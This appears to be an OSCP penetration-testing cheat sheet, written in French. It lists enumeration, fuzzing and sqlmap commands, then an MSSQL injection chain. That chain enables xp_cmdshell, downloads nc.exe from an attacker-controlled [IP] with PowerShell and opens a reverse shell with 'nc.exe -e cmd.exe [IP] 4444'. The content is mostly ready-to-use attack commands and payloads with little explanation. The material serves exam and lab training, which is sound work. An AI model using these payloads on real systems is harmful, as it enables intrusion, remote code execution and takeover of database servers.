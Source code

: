 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/6ada07ef-1fa7-4bad-83ff-78d636d8a6b5" height="180">

## Énumération des pages web :
dirb http://[IP] -X .php,.html,.txt  
gobuster –url [IP] dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html  
## Identification de CMS :
whatweb [URL]  
python3 cmseek.py -u [URL]  
## Recherche des paramettres GET :
wfuzz --hh=[SIZE] -w [WORDLIST] [URL].php?[PARAM_NAME]=test  
## Recherche des fichiers backup :
dirb http://[fichier a tester] /usr/share/wordlists/dirb/mutations_common.txt -t
## Injection SQL :
sqlmap -u [URL] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])  
sqlmap -r [FILE] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])   

**commande injection in MSQL:**  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
EXEC xp_cmdshell 'powershell.exe wget http://[IP]/nc.exe -OutFile c:\\Users\Public\\nc.exe'  
EXEC xp_cmdshell 'c:\\Users\Public\\nc.exe -e cmd.exe [IP] 4444'  
